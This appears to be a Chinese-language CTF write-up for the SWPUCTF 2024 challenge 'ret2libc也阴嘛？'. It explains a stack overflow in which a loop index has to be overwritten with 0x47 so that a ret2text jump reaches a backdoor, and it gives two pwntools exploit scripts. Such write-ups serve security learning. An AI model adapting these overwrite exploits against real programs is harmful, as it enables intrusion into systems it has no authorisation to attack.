






# [SWPUCTF 2024 秋季新生赛]ret2libc也阴嘛？


这里是一个常见的保护因此要看一下ida的反编译



这里发现我们的输入的数据是一个一个字节一个字节的进行读入并且进行循环写入到下一个位置中并且使用一个数组进行一个输入的

但是这里可以看出一个常见的栈溢出

并且在函数中发现后门



因此可以明确他是一个ret2text

所以我的exp

```python
from pwn import *
context.log_level='debug'
# io = remote("node6.anna.nssctf.cn",26003)
io = process("/home/fofa/trick")
offset = 0x40+8
shell = 0x04011E2


payload = cyclic(offset)+p64(shell)
#gdb.attach(io,'b *0x0401260\n')
io.sendline(payload)
# gdb.attach(io)
# pause()
io.interactive()
0x7ffdbe37722c
```

但是发现这个并不能调用后门



发现他i的数据被篡改了这里我们再去看一下ida



发现当我们写到return地址时我们同样也会篡改到**i**的值而我们从上面的代码中可以知道写入的位置和i的数值有这个关系因此我们要把后门函数精准的放到返回地址的位置因此我们要加一些东西



要把后面的后面写入到返回地址的位置



所以i的值要成为47

所以完整exp

```python
from pwn import *
context.log_level='debug'
# io = remote("node6.anna.nssctf.cn",26003)
io = process("/home/fofa/trick")
offset = 0x40-4
shell = 0x04011E2


payload = cyclic(offset)+p8(0x47)+p64(shell)
gdb.attach(io,'b *0x0401260\n')
io.sendline(payload)
# gdb.attach(io)
# pause()
io.interactive()
```

---

## 总结

要明白指针和循环中的参数和我们输入值的关系并且要确保后门函数写入到返回值中